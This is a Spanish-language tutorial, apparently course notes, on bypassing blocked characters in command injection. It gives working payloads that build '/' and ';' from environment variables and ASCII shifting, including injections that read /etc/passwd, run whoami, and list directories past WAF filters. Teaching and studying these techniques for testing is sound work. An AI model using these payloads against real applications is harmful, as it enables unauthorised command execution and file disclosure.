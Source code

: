 
---
# **Bypassing de Caracteres Bloqueados en Inyección de Comandos**

Las aplicaciones pueden bloquear ciertos caracteres como **slashes (`/` y `\`) y puntos y comas (`;`)**, ya que son esenciales para la navegación de directorios y ejecución de comandos. Sin embargo, existen diversas formas de generar estos caracteres sin escribirlos directamente.

---

## **1. Uso de Variables de Entorno (Linux)**

Podemos extraer caracteres de variables de entorno usando la sintaxis `${VAR:start:length}`.

### **Ejemplo: Obtener `/` desde `$PATH`**

```bash
echo ${PATH:0:1}
```

Salida:

```
/
```

En un payload:

```
127.0.0.1${PATH:0:1}etc${PATH:0:1}passwd
```

Accedería a `/etc/passwd` sin necesidad de escribir `/` explícitamente.

### **Ejemplo: Obtener `;` desde `$LS_COLORS`**

```bash
echo ${LS_COLORS:10:1}
```

Salida:

```
;
```

En un payload:

```
127.0.0.1${LS_COLORS:10:1}${IFS}whoami
```

Evitando filtros de `;` y espacios simultáneamente.

---

## **2. Uso de Variables de Entorno (Windows)**

El mismo principio se aplica en **Windows CMD y PowerShell**.

### **Ejemplo en CMD para obtener `\`**

```cmd
echo %HOMEPATH:~6,-11%
```

Salida:

```
\
```

### **Ejemplo en PowerShell para obtener `\`**

```powershell
$env:HOMEPATH[0]
```

Salida:

```
\
```

Para listar todas las variables de entorno en PowerShell:

```powershell
Get-ChildItem Env:
```

Esto permite identificar variables útiles para evadir filtros.

---

## **3. Character Shifting (Desplazamiento de Caracteres)**

Se puede obtener un carácter evitando su uso directo mediante **desplazamiento en la tabla ASCII**.

### **Ejemplo en Linux para obtener `\`**

```bash
man ascii     # \ está en 92, el carácter anterior es [ en 91
echo $(tr '!-}' '"-~'<<<[)
```

Salida:

```
\
```

### **Ejercicio: Obtener `;` con Character Shifting**

1. Buscar el carácter anterior a `;` en ASCII (`:` en 58).
2. Aplicar:

```bash
echo $(tr '!-}' '"-~'<<<:)
```

Salida esperada:

```
;
```

---

## **Conclusión**

- **Variables de entorno** permiten generar caracteres prohibidos.
- **Character shifting** permite evadir filtros mediante desplazamiento ASCII.
- **Ambas técnicas pueden combinarse** con otros bypasses como `$IFS` o brace expansion.

Estas técnicas son esenciales para **evadir WAFs y filtros de seguridad** en inyecciones de comandos.

### EJercicio

127.0.0.1%0a{ls,-la,${PATH:0:1}home}